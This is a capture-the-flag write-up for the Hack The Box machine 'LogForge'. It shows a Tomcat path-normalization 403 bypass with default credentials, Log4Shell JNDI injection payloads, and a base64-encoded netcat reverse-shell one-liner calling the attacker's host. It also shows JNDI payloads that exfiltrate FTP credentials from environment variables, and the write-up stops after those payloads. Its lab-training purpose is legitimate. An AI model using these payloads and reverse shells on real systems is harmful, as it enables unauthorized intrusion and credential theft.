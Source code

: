 ## HTB Logforge (Medium) - Writeup

Difficulty: Medium

Discovered a Tomcat server with a /manager panel, accessed via a 403 bypass using a path traversal trick.  
Identified and exploited Log4Shell by injecting a JNDI payload in a logged parameter, leading to RCE.  
Gained a reverse shell using a serialized CommonsCollections gadget via JNDI Exploit Kit.  
Escalated to root by exfiltrating environment variables through Log4j to retrieve FTP credentials, then SSH’ed in with a leaked private key.  

---

## Nmap 

#### The nmap scan revealed two open and two filtered ports:  

![obraz](https://github.com/user-attachments/assets/0ece98b9-cef6-4d45-a3a3-f90b4ee531e8)



## Port 80 - Website  

The website consists solely of a static image, with no interactive or visible functionality.  

![obraz](https://github.com/user-attachments/assets/d312d04b-86a8-4f03-8c27-6f5f9e1c7776)  

Running Feroxbuster revealed the /admin directory, which returns a 403 Forbidden error.  

![obraz](https://github.com/user-attachments/assets/5a2e7c4a-5b0f-4ec1-aaca-9911d45f078e)

It also revealed that the website is running tomcat because of directories like /manager.  

We can check the headers with curl:  
```
curl -I http://10.10.11.138/
```
![obraz](https://github.com/user-attachments/assets/fbdeb2ba-365e-4216-ab4a-7fc06120e697)

It returns with Java cookie which indicates that backend is written in Java.  
Tomcat is also written in Java meaning it's another hint.  
We can re-run feroxbuster with additional extensions and different list:  
```
feroxbuster --url http://10.10.11.138/ -x js,jsp,java,xml -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
```
![obraz](https://github.com/user-attachments/assets/6da9c81a-f398-4eac-be41-438626053592)

It found index.jsp but nothing more of interest.  



## 403 bypass trick

If we go to /manager we get 403 access denied.  
There is a report written by Orange Tsai that is a must read if you didn't do it already:  
```
https://i.blackhat.com/us-18/Wed-August-8/us-18-Orange-Tsai-Breaking-Parser-Logic-Take-Your-Path-Normalization-Off-And-Pop-0days-Out-2.pdf
```
I'll paste the part about tomcat here:  

![obraz](https://github.com/user-attachments/assets/815b0036-d80d-4262-814f-d6d2a8c43d4c)

It bypasses Tomcat’s path parsing and normalization logic.  

We can now access:  
```
http://<ip>/x/..;/manager
```
Luckily for us default credentials worked
+  tomcat:tomcat

![obraz](https://github.com/user-attachments/assets/a3030bff-0336-4526-89c6-a23499c5101e)



## Log4Shell - exploitation  

Given the name of the box there might be a log4shell vulnerability.  
There is an application /UHC{BadWayToBlockTomcat}  
We can click on expire and catch a request with burpsuite:  

![obraz](https://github.com/user-attachments/assets/35653c2b-6171-4198-83aa-deefeb5ad9be)

There is only one parameter called "idle", we can try basic log4shell payload to test if that's a case here.  
For it to work we must put a paylod in the field that will be logged by log4j java library.  
```
{% raw %} idle=${jndi:ldap://10.10.14.5/x}  {% endraw %}
```
And start tcpdump to listen for pings:  

![obraz](https://github.com/user-attachments/assets/995635a4-df56-4f8f-b3cf-4bdd462f0263)

![obraz](https://github.com/user-attachments/assets/665c180b-521b-4747-b257-f2cbfc9a9d85)

It works, now we want to get shell access.  
I had many problems with getting this shell.  
First I tried to run python server and marshalsec-jar ldap server but it couldn't redirect to my python server.  
Then I tried creating .ser paylod with ysoserial and running JNDI EXPLOIT KIT but it didin't work either.  
Finally the thing that worked was creating a payload directly in JNDI EXPLOIT KIT.  
In order to exploit this we need JNDI EXPLOIT KIT:  
```
git clone https://github.com/pimps/JNDI-Exploit-Kit.git 
mvn clean package -DskipTests
cd target
```
Then run it:  
```
java -jar JNDI-Exploit-Kit-1.0-SNAPSHOT-all.jar
```
Now run a special query to create a payload and run it:  
```
{% raw %}  ${jndi:ldap://10.10.14.5:1389/serial/CommonsCollections5/exec_unix/cm0gL3RtcC9mO21rZmlmbyAvdG1wL2Y7Y2F0IC90bXAvZnwvYmluL3NoIC1pICAyPiYxfG5jIDEwLjEwLjE0LjUgIDkwMDUgPi90bXAvZg==} {% endraw %}
```
It failed with most of the payloads but the one we used and succeed was:  
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i  2>&1|nc 10.10.14.5  9005 >/tmp/f
```
In final payload we had to base64 encode it:  

![obraz](https://github.com/user-attachments/assets/21269274-b002-4327-9ce2-2b0b16194190)

It then gets to our server:  

![obraz](https://github.com/user-attachments/assets/1ba06685-e2e7-4653-bcf0-c88455d0f991)

And finally gives us a shell access:  

![obraz](https://github.com/user-attachments/assets/1f97c494-ae4c-4cd8-b974-5a46369af3af)



## Priv Esc

First we can retrieve a flag:  

![obraz](https://github.com/user-attachments/assets/ec491b2e-a816-4008-afaf-cc7e90cbf557)

There is a file ftpServer-1.0-SNAPSHOT-all.jar we can move it with netcat:  
```
Attacker:  
nc -nvlp 80 > ftpServer-1.0-SNAPSHOT-all.jar

Target:    
nc -w 3 10.10.14.5 80 < ftpServer-1.0-SNAPSHOT-all.jar
```

![obraz](https://github.com/user-attachments/assets/f40be02c-0e19-472e-bb6c-607ed71a4bcb)

![obraz](https://github.com/user-attachments/assets/e8255198-0ede-47e1-88cd-144e0d41b838)


To reverse engineer java files we can use jd-gui:  

![obraz](https://github.com/user-attachments/assets/0301bf26-20e8-4a05-81fd-95b4083759a0)

After looking through code we found credentials as two environment variables being set:  

![obraz](https://github.com/user-attachments/assets/bdce03e3-d03b-4656-8cef-c7725411091d)

In the username parameter it uses log4j library:  

![obraz](https://github.com/user-attachments/assets/1cb1e8a1-6d7a-45cf-9896-685d5bb6cf9e)

It means that we can connect to ftp and in the username parameter put JNDI payload like we did in the website to get a shell access.  
For it to work we need to start jdni exploit kit server as before.  
Then log into ftp on the target machine twice and use following payloads:  
```
{% raw %} ${jndi:ldap://10.10.14.5:1389/${env:ftp_user}} 
${jndi:ldap://10.10.14.5:1389/${env:ftp_password}} {% endraw %}
```












































































